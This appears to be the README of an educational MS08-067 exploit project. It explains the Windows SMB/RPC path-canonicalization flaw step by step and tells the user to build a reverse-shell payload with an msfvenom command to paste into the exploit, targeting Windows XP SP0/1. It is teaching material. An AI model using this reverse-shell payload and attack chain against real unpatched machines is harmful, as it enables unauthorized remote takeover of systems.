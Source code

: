 # Getting the exploit working

This exploit is primarily written as a learning tool alongside the derivation guide below, it is intended as a documentation of my exploit development process, as well as a brief literature review of the various components associated with the ms08_067 vulnerability, such as SMB, DCE/RPC, and named pipes. However, if you must use the exploit code, ensure that you first have permission to test the target, and be sure to test the exploit in your own environment beforehand. 

The shell code return addresses within the exploit should work perfectly for Windows XP SP 0 and 1 as is, any other targets will require a different return address, and potentially some DEP and ASLR by-pass. See the source code of the ms08_067_netapi module in metasploit for more information. 

No matter the target, you will have to replace the payload with your own shellcode (to include source/target ip addresses etc), this can be done simply by running the msfvenom command:
```bash
msfvenom --payload windows/shell_reverse_tcp --nopsled 7 LHOST=<your.ip.address.here> EXITFUNC=thread --bad-chars "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f python -e x86/jmp_call_additive
```
and copying the output into the exploit code at the marked location.


# Introduction

The hacker ethos at its' core for me, just like any scientist, is an unbounded enthusiasm for understanding and communicating how things work. I believe that contributing is the best way to feel legitimately involved in a community, so with that in mind, my first little contribution; a beginners' walkthrough of the MS08_067 vulnerability, culminating with the step-by-step development of a working exploit in Python.

Let's start with the fact that MS08_067 is a bug, and it was given this rather bland codename because it was the 67th bugfix in 2008 by Microsoft. It was a particularly devastating bug, because prior to the update all a variety of Windows versions were exploitable at factory settings, without any credentials whatsoever, and it was completely automatable. I recognise that at almost a decade old, this is an ancient vulnerability, but during my time working as a penetration tester, even in 2016/2017, I have discovered a fair number of machines that are *still* vulnerable to this.

So, how does it work? Let's start with the short explanation given with the bug on Rapid7 Vulnerability database [0]:
> This module exploits a parsing flaw in the path canonicalization code of NetAPI32.dll through the Server Service. This module is capable of bypassing NX on 
> some operating systems and service packs. The correct target must be used to prevent the Server Service (along with a dozen others in the same process) from 
> crashing. Windows XP targets seem to handle multiple successful exploitation events, but 2003 targets will often crash or hang on subsequent attempts. This 
> is just the first version of this module, full support for NX bypass on 2003, along with other platforms, is still in development.


This gives us relatively few clues as to the actual mechanism of the vulnerability. Also, I had no idea what the NetBIOS/SMB ports 139 and 445 actually did, never mind what NetAPI32.dll or NetprPathCanonicalize() were. Now however, after some pretty in-depth research I can inform you that the actual mechanism for the vulnerability is as follows, I will go into each step in greater detail later:
1. Negotiate an anonymous session with smb.
1. Connect to the DCE/RPC IPC$ share, Inter-Process Communication, which is available in anonymous sessions over smb. 
1. The browser named pipe is available to to write to, as the Computer Browser service it was originally intended for advertising the file systems of the computer, so a small number of low privelege utility functions are available remotely. 
1. Once a named pipe has been selected to communicate, we are faced with a program known as the End Point Mapper (EPM), which when passed the UUID of the Server Service, will bind any further input to the services.exe remote procedure call interface. 
1. There we pass opcode 31, for NetprPathCanonicalize along with the marshalled parameters. Along with these parameters is a malformed path, with an embedded shellcode and jumper.